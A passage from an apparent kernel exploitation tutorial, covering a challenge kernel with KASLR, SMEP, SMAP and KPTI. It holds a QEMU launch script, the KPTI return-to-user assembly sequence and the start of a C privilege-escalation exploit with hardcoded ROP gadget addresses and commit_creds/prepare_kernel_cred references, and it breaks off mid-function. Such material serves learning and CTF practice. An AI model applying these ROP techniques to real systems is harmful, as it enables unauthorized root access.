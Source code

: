 ```
rop[i++] = user_ss;
```

### Lv.3 KCanary + KASLR + SMEP + SMAP + KPTI

If KPTI is added, the previous method 0x2 cannot be used. However, method 0x1 can still be used because KPTI only enforces isolation. However, since the PGD is in kernel mode when we are in kernel space, we need to perform additional operations to switch back.

KPTI, in simple terms, uses a 4MB PGD, with 0~4MB for user-mode PGD and 4~8MB for kernel-mode PGD. Switching can be done efficiently by toggling the 13th bit of the CR3 register.

```bash title=start.sh
qemu-system-x86_64 \
  -m 128M \
  -cpu qemu64-v1,+smep,+smap \
  -kernel ./bzImage \
  -initrd  ./initramfs.cpio.gz \
  -append "root=/dev/ram rw console=ttyS0 oops=panic panic=1 quiet kaslr pti=on" \
  -s  \
  -netdev user,id=t0, -device e1000,netdev=t0,id=nic0 \
  -nographic  \
```

#### Method 0x1 - swapgs_restore_regs_and_return_to_usermode

The simplest approach is to directly use the correct switching statements from `swapgs_restore_regs_and_return_to_usermode`. The operations related to registers and stack in this function can be summarized as follows, so we add two padding instructions:

```assembly
mov  rdi, cr3
or rdi, 0x1000
mov  cr3, rdi
pop rax
pop rdi
swapgs
iretq
```

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>
#include <sys/ioctl.h>


#define POP_RDI_RET 0xffffffff81000b2f
#define MOV_RDI_RAX_CALL_RDX 0xffffffff8101aa6a
#define POP_RDX_RET 0xffffffff810a0f49
#define POP_RCX_RET 0xffffffff81021e53
#define POP_RAX_RET 0xffffffff810520cf
#define MOV_CR4_RAX_PUSH_RCX_POPFQ_RET 0xffffffff81002515
#define SWAPGS_POPFQ_RET 0xffffffff81a012da
#define  IRETQ 0xffffffff81050ac2
#define SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE 0xffffffff81a008f0

#pragma clang diagnostic ignored "-Wconversion"  // makes me happy

size_t user_cs, user_ss, user_rflags, user_sp;
size_t prepare_kernel_cred, commit_creds;
void save_status() {
```
